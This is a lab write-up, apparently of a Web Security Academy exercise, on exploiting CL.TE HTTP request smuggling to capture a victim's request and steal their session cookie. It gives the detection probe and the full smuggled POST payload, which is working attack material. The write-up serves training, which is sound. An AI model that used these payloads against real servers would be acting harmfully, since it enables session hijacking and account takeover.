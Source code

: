 # Exploiting HTTP request smuggling to capture other users' requests
# Objective
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.

> The lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.

# Solution
## Analysis
### Post comment funcionality
|![](Images/image-45.png)|
|:--:| 
| *Posts comment funcionality* |

###  Determining what the front-end and back-end is using
`Time out` confirms `CL.TE` vulnerability.

```
POST / HTTP/1.1
Host: 0a8000c30363b52181d80739004100cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
nap
X

```

|![](Images/image-46.png)|
|:--:| 
| *Front-end is using CL* |
| *Back-end is using TE* |

## Exploitation

Read `csrf` token value from browser console:
```
document.querySelector('input[name="csrf"]').value;
```

```
POST / HTTP/1.1
Host: 0a8000c30363b52181d80739004100cd.web-security-academy.net
Cookie: session=thfAgmOfPbmPeVWvSHCCmfF8a3saXlDU
Content-Type: application/x-www-form-urlencoded
Content-Length: 329
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0a8000c30363b52181d80739004100cd.web-security-academy.net
Cookie: session=c91FQAALRHqe6aVZq7MLClsocCWnUnfC
Content-Type: application/x-www-form-urlencoded
Content-Length: 926

csrf=pnw25B3VWRP9fl19EjZKsNGkn2J8xAzi&postId=9&name=Smuggled&email=Smuggled%40fSmuggled.com&comment=Smuggled
```

|![](Images/image-47.png)|
|:--:| 
| *Request was smuggled successfuly - tested manually by sending 2 requests* |
|![](Images/image-48.png)|
| *Request was smuggled successfuly - final payload* |
|![](Images/image-49.png)|
| *Request was smuggled successfuly - session token in comment* |

